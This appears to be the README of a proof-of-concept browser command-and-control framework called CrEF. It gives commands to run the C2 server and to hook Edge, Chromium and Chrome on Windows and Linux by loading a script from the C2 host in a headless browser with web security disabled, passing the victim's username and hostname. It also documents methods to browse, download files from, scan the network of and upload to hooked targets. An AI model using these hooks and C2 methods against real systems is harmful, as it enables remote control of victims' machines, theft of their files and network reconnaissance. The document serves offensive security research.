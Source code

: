 <div align="center">
	<h1>CrEF - Chromium Exploitation Framework</h1>
	<img src="./assets/CrEF-logo.png" alt="CrEF-logo" title="CrEF-logo" />
</div>

---

> **Author**::      TW-D
>
> **Version**::     1.0.0

---

## DESCRIPTION

Proof of concept of a command and control server enabling hooking of Chromium-based browsers launched with the **--disable-web-security** flag.

## TESTED ON

>
> **Microsoft Windows 10 Professionnel 22H2 and Microsoft Edge 132**
>
> *%USERPROFILE%\AppData\Local\Microsoft\Edge\User Data\Default*
>

>
> **Ubuntu 22.04.5 LTS and Chromium 132/133 (snap)**
>
> *"${HOME}/snap/chromium/common/chromium/Default"*
>

>
> **Ubuntu 24.04.2 LTS and Google Chrome 136 (official build)**
>
> *"${HOME}/.config/google-chrome/Default"*
>

## INSTALLATION

For Debian-based Linux distributions.

```bash
hacker@hacker-computer:~$ sudo apt-get install ruby ruby-dev php8.3-cli
hacker@hacker-computer:~$ sudo gem install tty nokogiri
```

## USAGE

This step is strongly recommended ; it is advised to rename the default folder "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" by following the steps below.

```bash
hacker@hacker-computer:~/CrEF$ cd ./www/
hacker@hacker-computer:~/CrEF/www$ mv ./data-U2lsZW5jZSBpcyBnb2xkZW4K/ ./data-"$(< /dev/urandom tr -cd 'A-Za-z0-9' | head -c 32)"/
```

The hooked browsers must communicate with a web server; PHP was deliberately chosen for its popularity.

```bash
hacker@hacker-computer:~/CrEF$ php -d memory_limit=2G -d post_max_size=1G -d max_execution_time=300 -d upload_max_filesize=1G -S 0.0.0.0:8000 -t ./www/
```

After renaming the directory "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" and starting the web server, you will also need to manually update the values in the **./cli.rb** *(line 3)*, **./www/index.php** *(lines 11 and 12)* and **./payloads/targets_list.rb** *(line 3)* files.

>
> Steps to hook a Microsoft Edge browser on Microsoft Windows:
>

```batch
C:\Users\target> ECHO ^<body^>^<script src="http://127.0.0.1:8000/index.js"^>^</script^> > %TMP%\x.html

C:\Users\target> "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --disable-web-security --headless --no-first-run --user-data-dir="%TMP%" "file:///%TMP%\x.html?u=%USERNAME%&c=%COMPUTERNAME%"
```

>
> Steps to hook a Chromium browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ chromium --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

>
> Steps to hook a Google Chrome browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ google-chrome --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

> [!NOTE]
> *127.0.0.1* is a sample address used for local testing.

### CLI MODE

To command and control the hooked browsers, a CLI version is available. You can run this command to get started:

```bash
hacker@hacker-computer:~/CrEF$ ruby -W0 ./cli.rb
```

#### SCREENSHOT

![CrEF-cli](./assets/CrEF-cli.png "CrEF-cli")

### SCRIPTING MODE

For more precise actions, a SCRIPTING version is also available by loading the library **./lib/command_control.rb** and leveraging its methods along with programming.

```bash
hacker@hacker-computer:~/CrEF$ cd ./payloads/
hacker@hacker-computer:~/CrEF/payloads$ ruby -W0 ./targets_list.rb
[{"target_status"=>"🟢",
  "session_id"=>1,
  "remote_address"=>"127.0.0.1",
  "computer_name"=>"target-computer",
  "user_name"=>"target",
  "platform_name"=>"Linux",
  "last_seen"=>"05/13/2025 03:29:17 PM"}]
[...]
```

> [!NOTE]
> The *./targets_list.rb* file is a sample helper file.

#### METHODS

```ruby
# Loads the list of targets by parsing JSON files found in the data directory.
#
# @return [Array<Hash>] Returns an array of hashes representing target sessions with their information (excluding user_agent).
def load_targets

# Loads the data for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Boolean, Hash] Returns a hash with the target data if the file exists, otherwise false.
def load_target(target_session)

# Loads the HTML tree structure for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Array<Array>] Returns an array of arrays with details for each row of the HTML table (type, link, size, date).
def load_tree(target_session)

# Sends a command to access a specific URL within the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_url [String] The URL to access.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def access_url(target_session, destination_url)

# Sends a command to browse a specific directory within the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_directory [String] The directory path to browse.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def browse_directory(target_session, source_directory)

# Sends a command to download a specific file from the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_file [String] The full path to the file to download.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def download_file(target_session, source_file)

# Sends a command to scan a network address from the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_address [String] The network address to scan.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def scan_address(target_session, destination_address)

# Sends a command to upload a URL to the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_url [String] The URL to upload.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def upload_url(target_session, source_url)
```

## LICENSE

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-MIT)
[![License: Apache 2.0](https://img.shields.io/badge/License-Apache%202.0-blue.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-APACHE)

Licensed under either of [Apache License Version 2.0](./LICENSE-APACHE) or [The MIT License](./LICENSE-MIT) at your option.

## COPYRIGHT

© 2025, [TW-D](https://github.com/TW-D)
